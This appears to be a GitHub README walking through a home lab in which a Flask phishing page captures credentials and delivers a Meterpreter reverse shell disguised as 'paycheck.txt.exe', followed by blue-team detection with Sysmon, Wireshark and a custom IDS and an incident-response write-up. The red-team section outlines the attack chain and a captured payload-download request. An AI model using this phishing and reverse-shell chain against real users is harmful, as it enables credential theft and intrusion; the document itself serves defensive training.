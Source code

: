 # 🎯 Phishing to Incident Response Lab Walkthrough

> **⚠️ Educational Purpose Only!** This project simulates a phishing attack and response workflow within a controlled lab environment for blue team skill-building. No part of this should be used maliciously.

---

## 🔥 Scenario Summary

A simulated phishing campaign was launched using a fake online banking page. When a victim clicked the link and submitted credentials, the site triggered a download of a **Meterpreter reverse shell** disguised as `paycheck.txt.exe`. This triggered the attack chain. The system was later detected and remediated using blue team tools.

---

## 🧰 Lab Setup

| Component     | Description                            |
|---------------|----------------------------------------|
| Kali Linux    | Attacker machine, payload/server host |
| Windows VM    | Victim endpoint                        |
| pfSense       | Network segmentation + firewall rules |
| Splunk        | Log aggregation & detection engine     |
| Wireshark     | Network traffic capture                |
| Log Hawk IDS  | Custom Python-based detection tool     |

---

## 🛠️ Red Team Phase (Initial Access)

- **Phishing Page**: Created using Flask and hosted at `http://127.0.0.1:5000`
- **Credential Stealer**: Form submission sends data to `http://127.0.0.1:8080`
- **Payload**: Reverse shell (`paycheck.txt.exe`) generated using `msfvenom`
- **Delivery**: URL shortened via **ngrok**, user tricked into clicking the link



- **Result**: Shell access gained on victim

---

## 🔎 Blue Team Phase (Detection)

### 📌 Sysmon Events

- **Event ID 1**: Process creation for `paycheck.txt.exe`
- **Event ID 7**: DLL loaded by `backgroundTaskHost.exe`
- **Event ID 13**: Registry modification by `svchost.exe` to `HKLM\System\...\UserSettings`

```xml
<Data Name='Image'>C:\Windows\System32\backgroundTaskHost.exe</Data>
<Data Name='ImageLoaded'>C:\Windows\System32\urlmon.dll</Data>
<Data Name='ProcessId'>6972</Data>
<Data Name='Signed'>true</Data>
<Data Name='User'>SILAS\jane</Data>
```

---

## 🌐 Network Traffic Analysis – Wireshark

Captured live traffic between attacker and victim:

### 🔍 Key Observations

- **Outbound Connection**: to external IP on port 4444 after `.exe` was executed
- **Payload Download**:

```
GET /payload.exe HTTP/1.1  
Host: ngrok URL
```

- **POST request with credentials**:
```
username=Silas, password=p@ssword123
```

### 📥 Packet Export

`/evidence/wireshark-capture.pcap` (password: `infected`)(uploadingsoon)

---

## ⚠️ Detection via Log Hawk IDS

Custom rules in Log Hawk flagged the following:

- Reverse shell to dynamic port
- Abnormal parent-child relationship
- Registry persistence

---

## 🧯 Incident Response Lifecycle

### 1. **Identification**  
Log Hawk flagged abnormal network traffic. Splunk confirmed payload execution.

### 2. **Containment**  
The compromised host was blocked via **pfSense firewall** and isolated from the lab network.

### 3. **Eradication**  
Used PowerShell to:
- Kill malicious process
- Remove reverse shell and persistence key
- Clean registry entry:
```ps
Remove-Item -Path 'HKLM:\System\CurrentControlSet\Services\bam\State\UserSettings\...'
```

### 4. **Recovery**
- Host restored to baseline snapshot
- Verified clean state via hash comparisons & memory dump analysis

---

## 📈 Improvements

- 🔍 Add **YARA rules** to detect `.txt.exe` masquerading
- 🧠 Upgrade to **TheHive** + **Shuffle** for ticketing & automation
- 📦 Enhance EDR logging and integrate **Wazuh**
- 🛜 Add Suricata rules for C2 traffic detection

---

## 🧠 Lessons Learned

- Social engineering remains a potent threat vector
- Evasion techniques like double extensions can easily fool users
- Incident response is effective when detection, isolation, and remediation work together

---

## 🖼️ Screenshots 

![IMG_20250617_074609](https://github.com/user-attachments/assets/283f6a8a-7fd4-43d0-a23b-1c4c9c1926f7)

![Screenshot 2025-06-17 024023_064557](https://github.com/user-attachments/assets/4bb9c44d-bef2-4685-944d-9a93f48fff52)



![Screenshot 2025-06-17 023945_064556](https://github.com/user-attachments/assets/438ae181-3480-45c5-9ee3-51f4aef896d0)

![IMG_20250617_074847](https://github.com/user-attachments/assets/bef579bd-58ba-4a0e-b178-436bac26a80b)

![Screenshot 2025-06-17 030330_064640](https://github.com/user-attachments/assets/1fea66c8-830a-4999-98c8-421885e087fb)
![Screenshot 2025-06-17 033051_064741](https://github.com/user-attachments/assets/e09b30df-5fc9-48a3-ac6e-e3bf0d3246f2)

![Screenshot 2025-06-17 032212_064708](https://github.com/user-attachments/assets/b27ff60f-c7db-4cf3-a95f-2d0721259d5d)

![Screenshot 2025-06-17 032530_064710](https://github.com/user-attachments/assets/edaf9023-5412-4600-8241-7c99cf72e3d4)

![Screenshot 2025-06-17 033051_064741](https://github.com/user-attachments/assets/2df5e6db-4a94-45b0-bb3b-0c820feda98b)
![Screenshot 2025-06-17 033111_064744](https://github.com/user-attachments/assets/fbfcce34-7a38-4b51-b37a-fbf3e7489280)
![Screenshot 2025-06-17 033231_064747](https://github.com/user-attachments/assets/0bebdaa3-5c3b-4b5b-b814-0471b2bf7ce9)

![Screenshot 2025-06-17 050219_064811](https://github.com/user-attachments/assets/66fe241c-67e4-4d80-b1ce-5435b845e1c3)

![Screenshot 2025-06-17 055423_064821](https://github.com/user-attachments/assets/c5ca57ca-d149-4b5b-8510-535dbe715c30)
![Screenshot 2025-06-17 055829_064827](https://github.com/user-attachments/assets/390e2ce9-4a45-4fec-8ff4-db122f1a52d4)

![Screenshot 2025-06-17 060211_064832](https://github.com/user-attachments/assets/e6485fa0-a0fd-44a0-8364-51b686ffd07d)

![Screenshot 2025-06-17 070420_072110](https://github.com/user-attachments/assets/87f27ec3-ba78-4afd-b16d-fbb651777ca8)
![Screenshot 2025-06-17 080721_080821](https://github.com/user-attachments/assets/0bfebe39-6911-46a3-a62d-430647c9b9c2)



---

## 📎 Related Projects

| Skill        | Associated Project         |
|--------------|----------------------------|
| Phishing     | [AD Lab](https://github.com/slybdev/Active-Directory/blob/main/README.md) |
| IR & Logging |   [Log Hawk IDS](https://github.com/slybdev/Log_hawk/blob/main/README.md)             |
| Network Forensics |    [This Project](https://github.com/slybdev/Network-Traffic-Monitoring-and-Attack-Detection-/blob/main/README.md)       |

---

## 👋 Final Notes

If you made it this far, thanks for reading! This was a fun exercise simulating both **red team** and **blue team** workflows. Hit that ⭐️ if this helped you or gave you project ideas!

> Built by **SlybDev (Silas)** 💻
